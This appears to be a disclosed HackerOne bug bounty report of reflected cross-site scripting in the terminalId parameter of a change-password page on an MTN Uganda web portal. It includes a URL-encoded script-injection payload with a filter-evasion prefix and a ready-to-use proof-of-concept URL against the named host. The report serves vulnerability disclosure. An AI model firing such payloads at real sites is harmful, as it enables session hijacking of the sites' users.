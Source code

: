 # Cross-site Scripting (XSS) - Reflected

## Report Details
- **Report ID**: 1183336
- **URL**: https://hackerone.com/reports/1183336
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-05-03T22:14:25.475Z
- **Disclosed**: 2022-10-30T21:54:20.309Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello dear support

Cross-site Scripting (XSS) refers to client-side code injection attack wherein an attacker can execute malicious scripts into a legitimate website or web application. XSS occurs when a web application makes use of unvalidated or unencoded user input within the output it generates.

i have found the issue on https://eweb01.mtn.co.ug

param and path /evds_portal_fe/change_password.htm?terminalId=

payload "%3c%3c%73%63%72%5c%61%61%61%2f%73%72%63%3d%3e%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%70%6c%61%79%73%74%61%74%69%6f%6e%20%72%65%66%6c%65%63%74%65%64%20%78%73%73%20%42%59%20%42%34%47%47%33%52%22%29%3c%2f%73%63%72%69%70%74%3e"


https://eweb01.mtn.co.ug/evds_portal_fe/change_password.htm?terminalId=%22%3c%3c%73%63%72%5c%61%61%61%2f%73%72%63%3d%3e%3c%2f%73%63%72%69%70%74%3e%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%70%6c%61%79%73%74%61%74%69%6f%6e%20%72%65%66%6c%65%63%74%65%64%20%78%73%73%20%42%59%20%42%34%47%47%33%52%22%29%3c%2f%73%63%72%69%70%74%3e%22

URL encoded GET input terminalId was set to 19146"();}]9520

The input is reflected inside a <script> tag between double quotes.

## Impact

XSS
Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker.

## Attachments
No attachments

